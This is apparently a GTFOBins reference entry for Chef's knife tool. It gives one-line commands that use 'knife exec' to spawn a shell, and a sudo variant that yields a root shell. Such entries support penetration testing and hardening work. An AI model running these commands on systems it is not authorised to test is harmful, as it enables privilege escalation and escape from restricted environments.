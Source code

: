 ```yaml
---
description: This is capable of running [`ruby`](/gtfobins/ruby/) code.
functions:
  shell:
    - code: |
        knife exec -E 'exec "/bin/sh"'
  sudo:
    - code: |
        sudo knife exec -E 'exec "/bin/sh"'
---
```

